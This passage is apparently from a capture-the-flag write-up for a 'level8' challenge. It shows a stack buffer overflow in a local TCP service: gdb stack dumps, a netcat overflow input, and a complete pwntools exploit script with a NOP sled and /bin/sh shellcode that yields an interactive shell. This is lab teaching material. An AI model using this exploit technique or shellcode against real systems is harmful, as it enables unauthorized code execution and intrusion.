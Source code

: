 Here we can see that the buffer has been filled till the end. In the stack we can see the `index` variable with the value `0x0000ffff` after the buffer. In order to continue writing we need to write a single byte to the index value so that the write continues at an address that we want, the return address. Continuing to the next breakpoint we can find the address of the return address.

```bash
Thread 2.1 "8" hit Breakpoint 2, 0x08048b70 in manage_tcp_client ()
(gdb) x/4wx $esp
0xfffed2bc:	0x08049200	0x00000004	0xffffd2f4	0xffffd2e0
```

From the above two stack dumps we can see that the stack is 12 bytes away from the index variable. We can write a custom value to the return address by writing a byte which makes the index value `0x0001000b`.

Using the following input:

```bash
icyfire@razor ~ → python -c "print(b'A' * 65536 + b'\x0b' + b'BBBB' +  b'\n')" | nc localhost 42068
```

Examining the stack:

```bash
Thread 4.1 "8" hit Breakpoint 2, 0x08048b70 in manage_tcp_client ()
(gdb) x/4wx $esp
0xfffed2bc:	0x42424242	0x00000000	0xffffd2f4	0xffffd2e0
```

We can see that the return address is overwritten with `BBBB` that we supplied in the input. Finding the address of the shellcode from the environment like the previous level, we can provide it in the input to run out shellcode. We can come up with the following exploit script.

```python
import os
from pwn import p32, process, remote

padding_length = 65536
target = 0xfffe6fef

env = os.environ
env["_SHELLCODE"] = "\x90" * 100000 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
msg = ('A' * padding_length).encode() + b'\x0b'  + p32(target) + '\n'.encode()

proc = process(argv=['/var/challenge/level8/8', '-p', '42068'], env=env)
connection = remote('127.0.0.1', 42068)
print(connection.readuntil(b'Ready to read!\n'))
connection.send(msg)
connection.readuntil(b'Done!\n')
connection.interactive()
connection.recvall(timeout=2)
```

Running the exploit script we get:

```bash
icyfire@razor level8 → python3 exploit.py
[+] Starting local process '/var/challenge/level8/8': pid 1897233
[+] Opening connection to 127.0.0.1 on port 42068: Done
b'Ready to read!\n'
[*] Switching to interactive mode
$ l33t
Woot! Congratulations you broke level lev9!
Adding user 'icyfire' to group 'lev9' ...
Adding user icyfire to group lev9
Done
$
[+] Receiving all data: Done (0B)
[*] Closed connection to 127.0.0.1 port 42068
```